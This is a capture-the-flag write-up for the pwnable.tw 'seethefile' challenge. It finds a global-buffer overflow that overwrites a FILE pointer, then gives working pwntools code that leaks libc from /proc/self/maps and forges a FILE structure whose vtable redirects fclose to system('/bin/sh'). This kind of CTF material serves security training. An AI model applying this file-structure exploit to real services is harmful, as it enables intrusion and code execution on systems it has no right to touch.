





# pwnable.tw - seethefile

Original challenge link: https://pwnable.tw/challenge/#9

You can as well download the challenge files in my repo: [seethefile.zip](seethefile.zip)

Download and extract, then use pwninit to patch file. After that, we can get started!

# 1. Find bug

First, let's check the basic information of binary:

```bash
$ file seethefile
seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped

$ checksec seethefile
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This is a 32-bit binary without being stripped and just `NX enable`. Next, we will use ghidra to decompile the file. The first option `openfile` will open a file with `fopen` in read mode but will exit if there are string `flag` in file name:


Then we can use second option `readfile` to read data from the opened file and write data to us with option 3 `writefile` just in case the file name doesn't contain string `flag` and buffer doesn't contain string `FLAG` or `}`. The forth option just simply close an opened file if exist.

But the last option give us somethings interesting, it will read a string from user by using scanf and a format string `%s` to a global variable --> **Buffer Overflow**. Analyze a bit and we know that this global variable `name` is before a global variable `fd`:



That means we might need to attack fp for this chall. That's all we can find, let's move on!

# 2. Idea

As the caption shown `Get a shell for me.`, we know that we cannot use those options to read the flag but need to get a shell to do so. As we know that we can overwrite the variable `fp` when inputing `name` so the idea will be fsop attacking.

However, we can use those options `openfile`, `readfile` and `writefile` to leak the address of current process by reading data from `/proc/self/maps` which contains all the address of current process from binary to stack, from ld to libc.

With address of libc, we can create a fake file structure to attack. If you don't know anything about how file works, you should read from Angel Boy [here](https://nightrainy.github.io/2019/08/07/play-withe-file-structure-%E6%90%AC%E8%BF%90/). For this challenge attack, we will do the same as the author did in section [`Exploitation of FILE structure`](https://nightrainy.github.io/2019/08/07/play-withe-file-structure-%E6%90%AC%E8%BF%90/#Exploitation-of-FILE-structure), we will overwrite `fp` with a fake file structure so when it close this fp, it will execute something for us.

Summary:
- Stage 1: Leak libc address
- Stage 2: File structure attack

# 3. Exploit

### Stage 1: Leak libc address

Just simply open file `/proc/self/maps` and get the address of libc:

```python
# Read first
open_file(b'/proc/self/maps')
output = b''
for i in range(4):
    read()
    output += write()[:-1]

# Parse later
output = output.decode().split('\n')
for i in output:
    if 'libc-2.23.so' in i and 'r-xp' in i:
        libc.address = int(i.split('-')[0], 16)
        break
log.info(hex(libc.address))
```

### Stage 2: File structure attack

If you don't know what file structure look like, you can read source [here](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libio.h#L241) to have an overview about it. Now, we will create a file structure in pwntools with `FileStructure` and pass input to program to see what happen:

```python
file = FileStructure()
file.flags = 0xfbad2488        # Take the same as other flag
payload = flat(
    b'A'*0x20,
    0x804b290, 0, 0, 0,
    bytes(file)
    )
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
```

Execute script and we get segfault in fclose:



It's the same as Angel Boy did so we know that the program checking the `fp->_lock`. Setting the `fp->_lock` to an address which contains value and then execute script again to see if we pass the check or not:

```python
file = FileStructure()
file.flags = 0xfbad2488
file._lock = 0x804ba00         # Add this line
payload = flat(
    b'A'*0x20,
    0x804b290, 0, 0, 0,
    bytes(file)
    )
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
```

This time we get segfault at a `call` to vtable:



So let's change vtable to `1234` to make sure we are right:

```python
file = FileStructure()
file.flags = 0xfbad2488
file._lock = 0x804ba00
file.vtable = u32(b'1234')     # Add this line
payload = flat(
    b'A'*0x20,
    0x804b290, 0, 0, 0,
    bytes(file)
    )
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
```

The same call to eax with eax changed to `1234`:



We notice that ebx is the fake fp that we input:



So we will want to write string `/bin/sh` at the begining of fp and address of system somewhere, then change vtable so that `vtable + 0x44` point to system address:

```python
file = FileStructure()
file.flags = u32(b'/bin')                   # Add this line
file._IO_read_ptr = u32(b'/sh\x00')         # Add this line
file._lock = 0x804ba00
file.vtable = 0x804b284 - 0x44
payload = flat(
    b'A'*0x20,
    0x804b290, libc.sym['system'], 0, 0,    # Add system address
    bytes(file)
    )
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
```

Execute script and we get shell now. 

Full script: [solve.py](solve.py)